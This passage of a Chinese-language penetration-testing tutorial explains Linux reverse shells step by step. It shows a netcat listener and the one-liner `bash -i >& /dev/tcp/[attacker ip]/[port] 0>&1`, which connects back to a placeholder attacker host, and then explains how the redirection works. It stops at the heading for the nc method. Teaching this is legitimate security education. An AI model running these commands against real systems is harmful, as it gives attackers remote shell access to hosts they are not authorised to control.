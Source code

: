 最后执行payload

感兴趣的小伙伴可以参考：<https://blog.csdn.net/caiqiiqi/article/details/83992719>

## 0x03命令反弹shell

### Linux反弹shell

在进行反弹之前，使用whereis命令可以确定目标支持的反弹方法。

```bash
whereis nc bash python php exec lua perl ruby
```

1. **bash反弹**

* **第一步**：攻击机运行nc监听端口：nc -lvvp [攻击机port]

nc是netcat的简写，可实现任意TCP/UDP端口的侦听，nc可以作为server以TCP或UDP的方式侦听指定端口。
相关指令：

```bash
-l 监听模式，用于入站连接。
-v 详细输出--用两个-v可得到更详细的内容。
-p port 本地端口号。
```

* **第二步：**靶机运行命令：bash -i >& /dev/tcp/[攻击机ip（公网）]/[攻击机端口] 0>&1

  ```bash
  bash -i #代表在本地打开一个bash。
  ```

  ```bash
  >& /dev/tcp/ip/port #>&后跟这个文件代表将标准输出和标准错误输出重定向到这个文件，也就是传递到远程vps，vps即是虚拟专用服务器/公网主机
  ```

  ```bash
  /dev/tcp/ #Linux中的一个特殊设备,打开这个文件就相当于发出了一个socket调用，建立一个socket连接。
  ```


远程vps开启对应的端口去监听，就会接收到这个bash的标准输出和标准错误输出。
linux文件描述符：linux shell下有三种标准的文件描述符，分别如下:

```bash
0 - stdin 代表标准输入,使用<或<<
1 - stdout 代表标准输出,使用>或>>
2 - stderr 代表标准错误输出,使用2>或2>>
```

```bash
>&含义：
当>&后面接文件时，表示将标准输出和标准错误输出重定向至文件。
当>&后面接文件描述符时，表示将前面的文件描述符重定向至后面的文件描述符
```

* **第三步**：攻击机成功连接上靶机的shell

2.**nc反弹**
